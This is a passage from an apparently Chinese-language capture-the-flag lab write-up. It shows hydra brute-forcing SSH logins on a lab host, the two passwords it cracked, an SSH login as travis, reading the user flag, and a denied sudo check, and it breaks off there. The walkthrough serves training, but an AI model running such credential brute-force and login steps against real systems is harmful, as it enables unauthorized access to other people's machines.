 这里需要注意下password是base64解码之后的，user是全小写。然后跑hydra，服务是ssh，因为web的登录口是邮箱和密码登录，很明显不是用户名和密码，那么久只能测试ssh服务。

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ hydra -L user.txt -P password.txt 172.16.86.143 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-08 02:47:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:5/p:6), ~2 tries per task
[DATA] attacking ssh://172.16.86.143:22/
[22][ssh] host: 172.16.86.143   login: dexter   password: 7ZwV4qtg42cmUXGX
[22][ssh] host: 172.16.86.143   login: travis   password: DJceVy98W28Y7wLg
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-08 02:47:18
```

很幸运，爆出来两个用户名和密码：`dexter/7ZwV4qtg42cmUXGX`和`travis/DJceVy98W28Y7wLg`。

# 4. Privilege Escalation

使用上面获取的用户名和密码登录ssh，在travis用户目录下发现了user.txt：

```shell
┌──(v4ler1an㉿kali)-[~]
└─$ ssh travis@172.16.86.143
travis@172.16.86.143's password:
Linux debian 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Nov  8 01:52:57 2023 from 172.16.86.138
travis@debian:~$ ls
user.txt
travis@debian:~$ cat user.txt
ICA{Secret_Project}
```

查看用户权限：

```shell
travis@debian:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for travis:
Sorry, user travis may not run sudo on debian.
```
